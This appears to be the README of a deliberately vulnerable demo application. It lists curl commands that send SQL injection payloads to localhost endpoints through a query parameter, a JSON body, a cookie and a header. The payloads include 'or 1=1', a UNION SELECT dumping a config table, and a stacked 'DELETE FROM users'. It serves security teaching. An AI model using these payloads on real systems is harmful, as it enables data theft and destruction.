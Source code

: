 # vulnerable

## SQL Injection

### GET request - Get list of users - filter by query param
```bash
curl http://localhost:8080/vun/sql/example1/api/users?name=michal
curl http://localhost:8080/vun/sql/example1/api/users?name=michal%27%20or%201=1%20--%20-
curl http://localhost:8080/vun/sql/example1/api/users?name=michal%27%20UNION%20SELECT%20%2A%20FROM%20config%20%2D%2D%20%2D
```

### POST request - Get list of users - filter by json body
```bash
curl -X POST http://localhost:8080/vun/sql/example2/api/users -H "Content-Type: application/json" -d "{\"filter\": \"michal\"}"  
curl -X POST http://localhost:8080/vun/sql/example2/api/users -H "Content-Type: application/json" -d "{\"filter\": \"michal' or 1=1 -- -\"}"  
```

### Post request - Create new User
```bash
curl -X POST http://localhost:8080/vun/sql/example3/api/users -H "Content-Type: application/json" -d "{\"name\": \"michal\", \"surname\": \"hacker\"}"  
curl -X POST http://localhost:8080/vun/sql/example3/api/users -H "Content-Type: application/json" -d "{\"name\": \"michal\", \"surname\": \"hacker'); SELECT * FROM users; -- - \"}"  
curl -X POST http://localhost:8080/vun/sql/example3/api/users -H "Content-Type: application/json" -d "{\"name\": \"michal\", \"surname\": \"hacker'); DELETE FROM users; -- - \"}"  
```

### GET request - Get list of users - filter in cookie
```bash
curl http://localhost:8080/vun/sql/example4/api/users --cookie "name=michal"
curl http://localhost:8080/vun/sql/example4/api/users --cookie "name=michal'%20or%201=1%20--%20-"
```

### GET request - Get list of users - filter in header
```bash
curl http://localhost:8080/vun/sql/example5/api/users -H "X-Filter:michal"
curl http://localhost:8080/vun/sql/example5/api/users -H "X-Filter:michal' or 1=1 -- -"
```